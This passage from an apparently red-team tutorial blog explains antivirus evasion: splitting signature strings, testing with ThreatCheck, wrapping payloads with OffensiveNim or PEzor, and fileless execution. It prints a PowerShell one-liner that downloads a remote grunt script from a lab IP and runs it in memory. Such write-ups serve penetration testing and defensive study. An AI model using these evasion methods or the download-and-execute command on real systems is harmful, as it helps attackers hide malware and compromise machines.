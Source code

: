 What we can also do is concatenating strings instead of replacing them. So that e.g. ```mimikatz``` becomes ```'mi'+'mik'+'atz'```.  
In several cases this is enough to fool AV if done properly.  

A usefull tool that comes in handy when you want to test your new code against Windows Defender or AMSI signatures is [Raste Mouse´s](https://twitter.com/_RastaMouse)[ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). It will basically split your code into chunks of specific length and test it against the database of Windows Defender or AMSI, and tell you where in your code it gets flagged.

![broken]({{ site.baseurl }}/images/2021-16-01/ThreatCheck.png "ThreatCheck")   

There are tools out there, that will do the obfuscation job for you. Feel free to have a look at the [obfuscation section](https://github.com/LuemmelSec/Pentest-Tools-Collection#obfuscation) of my github repo, or just do some creative googling.  

### Wrapping and decrypting code  

If you are actively following the InfoSec community on twitter, you will most probably stumble upon [byt3bl33d3r´s](https://twitter.com/byt3bl33d3r) [Offensive Nim repo](https://github.com/byt3bl33d3r/OffensiveNim). These templates let you for example wrap your C# executable inside Nim and be compiled as C executable, thus hiding your content. Together with [s3cur3th1sh1t](https://twitter.com/ShitSecure) they even developed it further, so that you can have an encrypted payload inside the Nim binary, and decrypt at runtime in memory. This will make it harder to reverse, if you have to put your files to disk, as decompiling will only reveal the encrypted C# stuff. To learn more on this you can check out [Playing-with-OffensiveNim](https://s3cur3th1ssh1t.github.io/Playing-with-OffensiveNim/).  

There are also tools like [amber](https://github.com/EgeBalci/amber) or [PEzor](https://github.com/phra/PEzor), which will take C or C++ executables and reflectively load them into memory, adding some nice features like delayed execution too fool in memory scanners or avoiding AV user-land hooks and stuff. I don´t understand even half of the things that are going on here. But if you want to know more read [phra´s](https://twitter.com/phraaaaaaa) [blog](https://iwantmore.pizza/posts/PEzor.html) regarding PEZor.  

All the methods mentioned abovecan possibly help you obfuscate your code, so you don´t have to deploy the out of the box tools.  
But be aware that by the time also the wrapper code will get flagged. I did a test with a simple ```hello world``` C executable wrapped with PEZor, and I got like 21 hits on VirusTotal.
By now you should know what to do :) Obfuscate the templates.  

### Not touching the disk  

Another approach is to not touch the disk with our malicious content, so that traditional AV is not able to catch us when reading or writing data.  
The most well known technique to me is to use PowerShell´s native Invoke Expression function. It will allow you to download a script from a remote source and execute it in memory.  
```powershell
iex(new-object net.webclient).downloadstring('http://10.55.0.30/grunt.ps1')
```  

Another possibility is to use [Invoke-SharpLoader](https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader) from - *who would have thought it* - S3cur3Th1sSh1t, to load and execute C# directly from memory.  
    
